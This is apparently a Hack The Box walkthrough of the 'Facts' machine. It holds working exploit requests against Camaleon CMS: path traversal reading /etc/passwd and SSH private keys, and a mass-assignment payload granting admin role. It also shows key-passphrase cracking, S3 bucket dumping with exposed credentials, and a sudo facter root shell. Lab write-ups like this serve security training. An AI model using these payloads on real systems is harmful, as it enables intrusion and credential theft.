


## Enumeration
- As usual, I started by scanning the open ports to get an initial view of the exposed services.

```shell
sudo nmap -Pn -p- $IP -oN Facts_ports -v #This command took an eternity so I will add -T4
sudo nmap -Pn -p- -T4 $IP -oN Facts_ports -v
```

```
Nmap scan report for facts.htb (10.129.64.85)
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
54321/tcp open  unknown
```

- Let’s move on to service enumeration and run the default NSE scripts.

```shell
sudo nmap -Pn -p 22,80,54321 -A $IP -oN Facts_services -v
```

```
Nmap scan report for facts.htb (10.129.64.85)
Host is up (0.10s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
|_  256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
80/tcp    open  http    nginx 1.26.3 (Ubuntu)
|_http-title: facts
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 8C83ADFFE48BE12C38E7DBCC2D0524BC
|_http-server-header: nginx/1.26.3 (Ubuntu)
54321/tcp open  http    Golang net/http server
| http-methods: 
|_  Supported Methods: GET OPTIONS
|_http-title: Did not follow redirect to http://facts.htb:9001
|_http-server-header: MinIO
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 303
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 188FFBE0BF35BE3C
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 01 Feb 2026 01:42:01 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/nice ports,/Trinity.txt.bak</Resource><RequestId>188FFBE0BF35BE3C</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   GenericLines, Help, RTSPRequest, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 276
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 188FFBDC9A4AA676
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 01 Feb 2026 01:41:43 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/</Resource><RequestId>188FFBDC9A4AA676</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Vary: Origin
|     Date: Sun, 01 Feb 2026 01:41:43 GMT
|_    Content-Length: 0
```

- Alright, we have the usual ports you’d expect on a typical `easy Linux box`, plus an additional service exposed on **port 54321**.
## Web enumeration
- While `nmap` is running, I used `curl` to inspect the website’s HTTP response.

```shell
curl -i "http://$IP"
```


- I added `facts.htb` to my `/etc/hosts` file, then moved on to exploring the website.


- When we click on `Start exploring`, a bunch of facts are displayed (LoL interesting facts !)


### Potential usernames 
- Such information is worth collecting during reconnaissance, as it may prove useful in later stages of an assessment. For example, identified names may be leveraged in social engineering scenarios or used to generate potential username candidates when testing authentication mechanisms. 
- From the comments, the following usernames were identified:

```
Bob
Carol
Dave
```

- I didn't see any additional functionalities on the website; there is only a **search** bar that displays the facts already rendered on the page.


### Technologies used


- Based on my short experience on `HTB`, I don’t encounter `Ruby` very often, so I’ll keep this in mind.

```shell
whatweb http://facts.htb

#http://facts.htb [200 OK] Cookies[_factsapp_session], Country[RESERVED][ZZ], Email[contact@facts.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.26.3 (Ubuntu)], HttpOnly[_factsapp_session], IP[10.129.63.210], Open-Graph-Protocol[website], Script, Title[facts], UncommonHeaders[x-content-type-options,x-permitted-cross-domain-policies,referrer-policy,plugin_front_cache,x-request-id], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=edge], X-XSS-Protection[0], nginx[1.26.3]
```
### Vhost fuzzing
- I moved now to subdomain/vhost fuzzing :

```shell
ffuf -u http://facts.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.facts.htb" --fs 154.
```

- There was no subdomain
### Directory/files fuzzing
- I tried to enumerate directories/files :

```shell
gobuster dir -u http://facts.htb/ -w /usr/share/wordlists/dirb/common.txt -t 40
```


- When I tried accessing `/.htpasswd`, `/.cvs`, and similar paths, they all redirected to the root page of the website. I then moved on to explore the `/admin` endpoint.


- I tried some username/password combinations to check if I can enumerate users through errors such as `admin/admin` but no luck.
- I will create an account and see what I will find : 


- Hummm ! Typical scenario, we are dealing with a `CMS`, which means there is a high chance that we need to look for a CVE :3 ! The `CMS` for this box is `Camaleon 2.9.0`. Googling time ! 
## Unintended path
- Surprisingly, the `Camaleon CMS` instance in this box is vulnerable to `CVE-2024-46987`. According to `[RubySec](https://rubysec.com/advisories/CVE-2024-46987/)`, version`2.9.0` should not be affected, as this CVE is reported to be patched in versions **≥ 2.8.1**. However, in this case, the vulnerability is still exploitable. In any case, this issue will likely be patched by HTB after the arena release ends.
- Here is the Poc : 

```
http://facts.htb/admin/media/download_private_file?file=../../../../../../etc/passwd
```


- We can see that there are two users `trivia and william`. We can display the `user.txt` by abusing this LFI : 

```
http://facts.htb/admin/media/download_private_file?file=../../../../../../home/william/user.txt
```


- Let's try to find if there is a private key in these users' home folder : 

>[!Note]
>There are 4 main SSH key types :
>1. RSA `id_rsa`
>2. EdDSA (Edwards-curve Digital Signature Algorithm) `id_ed25519`
>3. ECDSA (Elliptic Curve Digital Signature Algorithm) `id_ecdsa`
>4. DSA (Digital Signature Algorithm) `id_dsa` **Legacy**

```
http://facts.htb/admin/media/download_private_file?file=../../../../../../home/william/.ssh/id_ed25519

http://facts.htb/admin/media/download_private_file?file=../../../../../../home/william/.ssh/id_ecdsa

http://facts.htb/admin/media/download_private_file?file=../../../../../../home/william/.ssh/id_dsa

http://facts.htb/admin/media/download_private_file?file=../../../../../../home/william/.ssh/id_rsa

http://facts.htb/admin/media/download_private_file?file=../../../../../../home/trivia/.ssh/id_ed25519

http://facts.htb/admin/media/download_private_file?file=../../../../../../home/trivia/.ssh/id_ecdsa

http://facts.htb/admin/media/download_private_file?file=../../../../../../home/trivia/.ssh/id_dsa

http://facts.htb/admin/media/download_private_file?file=../../../../../../home/trivia/.ssh/id_rsa
```

- I’m too lazy to try URLs one by one, so I just used a shell command instead (with a little help from AI, of course 😄).

```shell
for url in $(cat urls.txt); do curl -s -D - "$url" -H "Cookie: auth_token=BctEzbHN0V8RDrMNNijOoQ&Mozilla%2F5.0+%28X11%3B+Linux+x86_64%3B+rv%3A128.0%29+Gecko%2F20100101+Firefox%2F128.0&10.10.16.210" | awk -v u="$url" 'NR==1{ok=$2==200} ok && NR==2{print "\n===== " u " ====="} ok && NR>1{print}'; done
```


- I stored this private key, adjusted its permissions, and used it to log in via SSH as the user `trivia`.


- Passphrase needed! No worries !! This is where `jtr` shines. 😄

```shell
ssh2john id_ed25519 > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


- Now we can login and grab the `user.txt`
## Intended path
- When searching for `Camaleon 2.9.0`, a recent CVE stands out: `CVE-2025-2304`. This vulnerability was discovered by a researcher at `Tenable`.
- Technical analysis : https://www.tenable.com/security/research/tra-2025-09
- In order to exploit the vulnerability, we need to change the password of our low-privileged user (who has the `client` role). Intercept the password change request with Burp Suite and add an additional parameter: `password[role]=admin`.

>[!Note]
>The vulnerability exists because the `updated_ajax` method uses `params.require(:password).permit!` which accepts ANY parameter nested under the `password` namespace without filtering. While the developer intended to only allow password updates via `password[password]` and `password[password_confirmation]`, the dangerous `permit!` method allows attackers to inject additional parameters like `password[role]=admin`, `password[email]=attacker@evil.com`, or `password[verified]=true`. Rails' mass assignment automatically applies ALL these parameters to the User model, regardless of whether they're password-related or not. This means any database column in the users table (role, email, is_admin, created_at, etc.) can be modified by nesting it under the password parameter in the HTTP request.

- I tried to change, for example, my user ID. In my case, the ID is `5`. I will intercept the request when attempting to change the password and add the parameter `password[id]=100`.


- Now I will put my payload : 

```shell
_method=patch&authenticity_token=T2IxQnIcfOEzENHps5I1rOsRUhaGilhS0H2h8R6G-4VD5zWVXvSWcACRO8zd2-sucHnXGok92eMYOQpor6yTXQ&password%5Bpassword%5D=emy@123&password%5Bpassword_confirmation%5D=emy@123&password%5Bid%5D=200

#URL-decoded

_method=patch&authenticity_token=T2IxQnIcfOEzENHps5I1rOsRUhaGilhS0H2h8R6G-4VD5zWVXvSWcACRO8zd2-sucHnXGok92eMYOQpor6yTXQ&password[password]=emy@123&password[password_confirmation]=emy@123&password[id]=200
```

- I will forward the request : 


- And if I refresh, we will see that the `Id` was modified : 


- Now, let's do the same for the `role`. I captured the request again and this time I will escalate the privilege :


```shell
_method=patch&authenticity_token=HyNFi8aFKwr0kXvuWzVTztZ3PHjP77HDq7EcuB654J8TpkFc6m3Bm8cQkcs1fI1MTR-5dMBYMHJj9bchr5OIRw&password%5Bpassword%5D=emy1234&password%5Bpassword_confirmation%5D=emy1234&password%5Brole%5D=admin

#URL-Decoded

_method=patch&authenticity_token=HyNFi8aFKwr0kXvuWzVTztZ3PHjP77HDq7EcuB654J8TpkFc6m3Bm8cQkcs1fI1MTR-5dMBYMHJj9bchr5OIRw&password[password]=emy1234&password[password_confirmation]=emy1234&password[role]=admin
```

- And i will forward it, I will refresh and Voila ! 


- I spent some time exploring the `CMS` as `Administrator`. I attempted to obtain a reverse shell, so I navigated to `Media` and tried uploading a `shell.rb` file.


- If I click on the `Path` of the uploaded media, it is simply downloaded to my machine rather than executed, which leads to a dead end.


- `Dora the Explorer` mode **ON**, I went back to explore the `CMS`. Under `Settings -> General Site -> File System Settings`, I discovered **AWS S3 credentials**. Wait a second ⚆_⚆ ! the port used here matches the one that showed up earlier in the `nmap` scan !!


>[!Note]
>The CMS uses an `S3‑compatible object storage`. This type of storage can be viewed as a filesystem‑like structure composed of multiple buckets, where each bucket acts as a top‑level logical container and stores objects (comparable to files).

- Let’s retrieve the keys and try to enumerate what’s stored in the object storage exposed on the machine :

```shell
export AWS_ACCESS_KEY_ID=AKIA7BDE8167C04439EF
export AWS_SECRET_ACCESS_KEY=TDw0/SAGMmHFupOBNG4ih6nONOahgnQY7EiY72v8
export AWS_DEFAULT_REGION=us-east-1

aws s3 ls --endpoint-url http://$IP:54321 #List S3 buckets
aws s3 ls s3://internal --endpoint-url http://$IP:54321 #List objects inside `internal` bucket.
```


- I just downloaded the entire `internal` bucket to inspect it carefully ! 

```shell
aws s3 sync s3://internal ./internal --endpoint-url http://$IP:54321
```


- And we found the private key (the same one previously retrieved by abusing `LFI`). The remaining question now is: **which user should this key be used with?**

>[!Note]
>Running `ssh-keygen -lf id_ed25519` returned `no comment`, which indicates that `no comment is embedded in the private key metadata`. To check for a possible comment in the public key, we therefore **generate the public key from the private key**. 
>In practice, it is `very common for comments to exist only in the public key file (`.pub`)` and not in the private key, as comments are typically added for identification purposes at public key distribution time rather than stored with the private key itself.


```shell
ssh-keygen -lf id_ed25519
ssh-keygen -y -f id_ed25519
``` 

- We will login now as `trivia` with the key : 


- Flag : **{e0eb14fdca33724e256ded9556f4ec25}**
## Root.txt
```shell
sudo -l

#Matching Defaults entries for trivia on facts:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

>[!Note]
>Facter is a cross-platform system profiling tool written in `Ruby`. It gathers nuggets of information about a system such as its hostname, IP address, and operating system.

- If we check `GTFO`, we will find how to abuse it. The first `.rb` file in the `/path/to/dir/` directory will be executed. I will put a shell on `/tmp` :

```shell
echo 'exec "/bin/sh"' > /tmp/exploit.rb
sudo facter --custom-dir /tmp exploit
```


- Flag : **{1c329fc55695b0bae7f3e7459dea7aeb}**
